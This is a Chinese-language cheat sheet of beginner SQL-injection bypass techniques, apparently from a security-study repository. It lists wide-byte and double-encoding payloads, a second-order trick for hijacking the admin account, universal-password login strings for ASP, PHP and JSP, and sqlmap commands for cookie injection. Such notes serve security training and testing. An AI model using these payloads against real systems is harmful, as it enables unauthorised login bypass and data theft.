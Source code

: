 # 注入绕过初级
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 宽字节注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: GBK编码原因
![](/assets/1D9686C1BD68278B8BCC54E99EC2B241.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 注入点后添加 %df ('),注意引号位置
![](/assets/56A4F11A60114A0F775184E226B97253.png)
```
    sqlmap的应用:    sqlmap -u "URL%df"
```
![](/assets/WX20190308-163047@2x.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 二次编码注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: %25=%，%27='
![](/assets/819D6BE3ABC9332640A198A04C59DBE3.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 在注入参数后加上 %2527
![](/assets/2FB8757F83C36EA38BE10100CF6E5AFD.png)
![](/assets/F9F1EB8B18B34194EF8874D1070C3F1A.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 二次注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/272D362F397C7D1EECE826BBA25CFC5A.png) 
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 
```
    适合在能提取数据的地方，例如利用注册信息成 admin'#，密码随意
    在利用找回密码，修改admin的密码
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 万能密码注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/QQ20190218-182024@2x.png)
![](/assets/87E9A1A4708DED342D6152C1BC75DB04.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法:
```sql
    asp/aspx万能密码: ”or “a”=”a 、‘)or(‘a’=’a 、’or 1=1–、‘OR 1=1%00  
    PHP万能密码:  'or'='or'、 'or 1=1/* 字符型 GPC是否开都可以使用、User: something/Pass: ' OR '1'='1
    JSP万能密码: 1'or'1'='1、admin' OR 1=1/*
    
    https://blog.csdn.net/qq_36512966/article/details/72674794
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x05 cookie注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:php中，使用超全局变 $_GET，$_POST来接受参数。 asp中，使用Request.QueryString (GET)或 Request.Form (POST)来接收页面提交的参数值，程序不是先取GET中的数据，没有再取POST中的数据，还会去取Cookies中的数据，一般写防护的会忽略cookie防御
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法:
```html
    avascript:alert（document.ｃookie ="id="+escape("1")); 回车弹出对话框内容为1
    刷新一下网页，如果正常显示，表示该页是用Request("ID")这样的格式收集数据，这种格式就可以试Cookies注入了
    
    SQLMap:  sqlmap.py -u "http://172.16.12.2/test.php" --cookie "id=1" --level 2  --level>2才会检查cookie
```









    



